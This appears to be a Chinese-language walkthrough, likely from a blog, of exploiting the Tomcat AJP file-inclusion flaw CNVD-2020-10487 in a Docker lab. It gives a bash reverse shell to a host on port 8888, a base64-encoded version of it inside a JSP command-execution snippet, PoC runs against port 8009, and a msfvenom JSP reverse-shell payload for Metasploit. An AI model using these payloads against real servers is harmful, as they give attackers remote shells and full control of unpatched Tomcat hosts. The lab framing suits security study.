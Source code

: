使用bash反弹shell

```
bash -i >& /dev/tcp/192.168.1.8/8888 0>&1
```

因为是java的原因所以需要转换一下，使用http://www.jackson-t.ca/runtime-exec-payloads.html，转换结果如下

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```

生成一个`test.txt`，这里只需要换payload就可以

```
<%    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}").getInputStream();    int a = -1;    byte[] b = new byte[2048];    out.print("<pre>");    while((a=in.read(b))!=-1){        out.println(new String(b));    }    out.print("</pre>");%>
```

bp抓包把`test.txt`上传到docker容器

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

nc开启端口监听

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

即可获得一个交互型shell

```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.1.8 -p 8009 -f test.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里为了方便，上线到msf上进行操作，首先生成一个`shell.txt`

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 R > shell.txt
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwDE4o1Y4ZpSl6Qm8EvKonDbjWBkBHiafspicZowoH39movsRGFNK9UjTA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

抓包将`shell.txt`上传到docker

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwlkdLibTyiaCyF8vtqGoUHMlz7hlxMSh7PYfM6o5Tl8CDm6CYWoYWBRLg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

msf开启监听，注意payload使用`java/jsp_shell_reverse_tcp`

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwcIzs6U0QJjf2tibUPekGGXic3bMVgQYtMWPaCgCkzbhtSrTfsibjquvNQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

再使用poc反弹即可上线

```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.1.8 -p 8009 -f shell.txt
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwSWphHmJnN7zQYKyfNsibTuSibbr1HTTJV3YIIKZdVH4dvwHocybcHYtw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
